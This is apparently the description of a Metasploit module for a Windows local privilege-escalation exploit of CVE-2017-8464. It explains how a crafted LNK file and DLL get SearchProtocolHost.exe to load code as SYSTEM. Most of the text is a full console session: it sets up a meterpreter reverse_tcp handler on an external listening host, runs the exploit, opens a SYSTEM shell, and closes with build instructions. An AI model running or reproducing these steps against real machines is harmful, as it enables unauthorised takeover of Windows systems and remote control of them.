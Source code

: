 ## Description
This module is a Windows local exploit version of the existing file
format module for CVE-2017-8464. The module works by dropping the
specially crafted LNK file and DLL to disk, which causes
`SearchProtocolHost.exe` to parse the LNK file and thus load the DLL via
the vulnerability. Due to `SearchProtocolHost.exe` running as SYSTEM,
this can be used to elevate privileges.

The original DLL template needed some significant reworking to make it
compatible for execution within `SearchProtocolHost.exe`. The payload
was originally failing in the hollowed child `rundll32.exe` process with
a denied error from winsock. This was addressed by checking if the process
which loaded the crafted DLL is `SearchProtocolHost.exe` and when it is,
it opens the token of another SYSTEM process and passes it to
`CreateProcessAsUser` for the payload to work. When the DLL is loaded
into another process or is not running as SYSTEM, this step is skipped
and `NULL` is passed as the token.

Finally a thread is spawned to keep a module reference and monitor the
child process. This is for synchronization to prevent the payload from
being executed in rapid succession from a single exploitation attempt.
The mutex was also updated to the constant of `MUTEX!!!` to leverage
Metasploit's builtin mutex name randomization, which ensures that a name
is unique per module run but not globally unique.

## Vulnerable Systems
Tested and works on
Windows 7x64 SP0
Windows 7x64 SP1
Windows 8x64
Windows 8.1x64
Windows 10x64 Build 1511
Windows 10x64 Build 1607
Windows 10x64 Build 1703

## Running Example:
```
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set LHOST 192.168.135.112
LHOST => 192.168.135.112
> set LPORT 30001
LPORT => 30001
> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30001            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


[*] > Ruby Code (13 bytes)
> run -z
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.135.112:30001
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 1 opened (192.168.135.112:30001 -> 192.168.134.133:49178) at 2017-11-06 10:22:02 -0800
> sysinfo
Computer        : WIN7X64-SP0
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)

> use exploit/windows/local/cve_2017_8464_lnk_lpe
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set lhost 192.168.135.112
lhost => 192.168.135.112
> set lport 30002
lport => 30002
> set verbose true
verbose => true
> show options

Module options (exploit/windows/local/cve_2017_8464_lnk_lpe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DLLNAME                    no        The DLL file containing the payload
   FILENAME                   no        The LNK file
   PATH                       no        An explicit path to where the files should be written to
   SESSION   1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30002            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


> run -j
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 192.168.135.112:30002
[*] Generating LNK file to load: C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 2 opened (192.168.135.112:30002 -> 192.168.134.133:49179) at 2017-11-06 10:23:03 -0800
[*] Waiting 15s before file cleanup...
[+] Deleted C:\Users\msfuser\HADoIQMbEQDpbbRn.lnk
[+] Deleted C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)
  2   meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN7X64-SP0  192.168.135.112:30002 -> 192.168.134.133:49179 (192.168.134.133)

> getuid
Server username: WIN7X64-SP0\msfuser
Server username: NT AUTHORITY\SYSTEM
> getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
> getuid
Server username: NT AUTHORITY\SYSTEM
> exit -y
```

## Compiling instructions
Run `data/exploits/cve-2017-8464/src/build.sh`
(Requires `mingw-w64` package)
